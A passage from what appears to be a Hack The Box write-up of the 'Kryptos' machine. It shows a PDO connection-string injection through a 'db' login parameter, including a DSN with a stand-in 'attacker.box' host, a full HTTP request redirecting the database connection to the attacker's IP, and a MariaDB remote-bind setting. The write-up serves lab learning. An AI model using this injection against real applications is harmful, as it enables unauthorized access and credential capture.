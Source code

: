 ```yaml
---
title:  "Hackthebox - Kryptos"
date:   2019-09-21 20:33:28 +0200
categories: hackthebox
published: true
---
```


{% include image-center.html url="/assets/htb-kryptos.png" alt="Info Card" %}

## user

I do not have an nmap output for that box because I immediately concentrated on the website on Port 80 which shows a login page requesting username and password.

When taking a closer look at the login page, one can see that the database name is taken from the request parameter `db`.

When trying to change the `db` parameter, the response contains a PDO error. This leads to the conclusion that the database connection is made using PHP PDO.

A PDO connection string for mysql looks similar to the following example:

```default
$dsn = "mysql:host=localhost;dbname=mydb";
```

If it is possible to supply arbitrary input for `dbname`, the `host` attribute can be overwritten by declaring it a second time, e.g.:

```default
$dsn = "mysql:host=localhost;dbname=mydb;host=attacker.box";
```

The following request was used to make the web application query our own database instead of the one on the box:

```default
POST / HTTP/1.1
Host: 10.10.10.129
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Cookie: PHPSESSID=37cctnu27jj0ol3k13kjaacgqa
Connection: close

username=someone&password=foobar&db=cryptor;host=10.10.13.201&token=bc48e1b5f6409466a704472c96eb0b8198c25178a9dea686366b91694ccaa8be&login=
```

After verifying that the connection is working, a mysql server was started on the attacker machine. In order to allow remote connections on Kali, the following line in `/etc/mysql/mariadb.conf.d/50-server.cnf` was edited:

```default
bind-address		= 0.0.0.0
```
